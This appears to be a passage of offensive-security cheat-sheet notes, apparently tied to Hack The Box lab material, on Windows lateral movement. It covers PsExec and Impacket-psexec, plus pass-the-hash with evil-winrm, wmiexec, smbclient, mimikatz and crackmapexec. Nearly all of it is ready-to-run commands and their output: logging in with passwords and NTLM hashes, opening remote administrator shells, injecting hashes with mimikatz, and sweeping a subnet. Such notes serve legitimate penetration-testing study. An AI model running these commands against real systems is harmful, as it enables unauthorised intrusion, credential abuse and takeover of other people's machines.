 #### PsExec (Impacket-PsExec)

In order to misuse this tool for lateral movement, a few requisites must be met. To begin, the user that authenticates to the target machine needs to be part of the Administrators local group. In addition, the _ADMIN$_ share must be available and File and Printer Sharing has to be turned on.

```shell
PS C:\Tools\SysinternalsSuite> ./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
FILES04

C:\Windows\system32>whoami
corp\jen
```

From Linux:	`impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212`
#### Pass the Hash (Evil-winrm/wmiexec/smbclient/mimikatz/Invoke-TheHash/crackmapexec/xfreerdp)
https://academy.hackthebox.com/module/147/section/1638

```shell
kali@kali:~$ evil-winrm -i 10.129.200.63 -u administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

C:\>whoami
files04\administrator
```

```shell
kali@kali:~$ /usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
files04\administrator
```

SMBClient: `smbclient \\192.168.50.212\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`
Mimikatz: `c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit` (In GUI spawns a cmd session)
Crackmapexec: `crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453` (add --local-auth if we are facing a local user. Use -x for command execution)


[192.168.50.73]: PS C:\Users\jen\Documents> whoami